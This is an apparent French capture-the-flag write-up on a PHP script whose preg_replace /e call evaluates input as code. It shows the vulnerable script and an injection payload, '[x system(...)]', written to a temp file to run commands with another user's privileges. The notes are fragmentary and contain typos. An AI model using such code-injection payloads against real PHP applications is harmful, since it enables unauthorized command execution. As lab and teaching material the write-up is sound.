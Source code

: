1. Ls dans le home, presence d'un script php et d'un executable qui l'appelle

ce script a les permission de flag05, donc on veut injecter "getflag > car/tmp/flag06" dedans

#!/usr/bin/php
<?php
function y($m) { 
    $m = preg_replace("/\./", " x ", $m); 
    $m = preg_replace("/@/", " y", $m); 
    return $m; 
}

function x($y, $z) { 
    $a = file_get_contents($y); 
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a); 
    return $a; 
}

$r = x($argv[1], $argv[2]); 
print $r;
?>



echo "


[x system(system(echo hello > /var/tmp/flag))]


y("system(system(echo hello > /var/tmp/flag))")



" > /var/tmp/input.txt